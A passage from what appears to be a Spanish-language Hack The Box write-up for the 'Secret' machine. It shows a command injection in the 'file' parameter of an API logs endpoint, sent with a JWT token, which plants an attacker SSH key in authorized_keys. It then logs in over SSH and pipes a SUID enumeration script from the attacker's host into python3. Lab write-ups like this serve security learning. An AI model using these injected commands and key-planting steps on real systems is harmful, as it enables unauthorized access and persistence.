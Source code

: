 ```bash
ssh-keygen -t rsa -b 4096 -C 'drt@htb' -f secret.htb -P ''
```

Generamos una clave pública y privada SSH en el directorio llamada `secret.htb`. Para garantizar que se agregue la clave pública, nos aseguramos de que la carpeta `.ssh` existe en el sistema y hay un archivo llamado `.ssh/authorized_keys`.

En lugar de verificar manualmente, podemos agregar comandos que no sobrescribirán ningún archivo o carpeta existente, pero los crearán si no existen:

```bash
mkdir -p /home/dasith/.ssh
echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys
```

### Inyección de la clave SSH

Primero, almacenamos el contenido de nuestra clave pública en una variable bash:

```bash
export PUBLIC_KEY=$(cat secret.htb.pub)
```

Y luego ejecutamos curl:

```bash
curl \
  -i \
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \
  -G \
  --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" \
  'http://10.10.11.120/api/logs'
```

Recibimos un código de estado 200, así que pudo funcionar.

### Conexión SSH

```bash
ssh -i secret.htb dasith@10.10.11.120
```

¡Y funcionó!

## Escalada de privilegios

Buscaremos vectores de ataque utilizando herramientas como `linpeas.sh`, `LinEnum.sh` y `suid3num.py`, que es un script en Python para enumerar todos los binarios SUID de la máquina.

### Enumeración SUID

```bash
curl http://10.10.17.97:9001/suid3num.py | python3
python3 -m http.server 9001
```
